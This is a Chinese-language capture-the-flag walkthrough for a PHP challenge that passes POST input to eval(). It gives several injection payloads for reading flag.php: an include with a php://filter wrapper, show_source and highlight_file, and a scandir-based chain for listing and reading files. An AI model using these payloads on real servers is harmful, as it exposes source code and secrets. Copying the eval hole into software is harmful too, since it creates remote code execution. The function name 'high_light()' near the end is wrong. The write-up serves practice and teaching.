









```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```


同上题


### 第一种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```






### 第二种

直接show_source()

```
c=show_source("flag.php");
```




或者尝试readfile()



但是readfile()被禁用


尝试highlight_file()

```
c=highlight_file("flag.php");
```




当然，这里仅限于知道文件路径及文件名，直接读取源码


### 其余做法

参考无参rce

getcwd()获取当前路径

scandir()扫描目录

var_dump()打印内容

```
c=var_dump(scandir(getcwd()));
```



得到文件名，此时我们可以直接利用上面的show_source("flag.php")等方式直接读取源码

也可以用var_export()输出内容



也可以用print_r()输出内容




或者继续利用函数

show_source显示源码

next()指向下一个

array_reverse()逆序数组

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```




这里的show_source()也可以用high_light()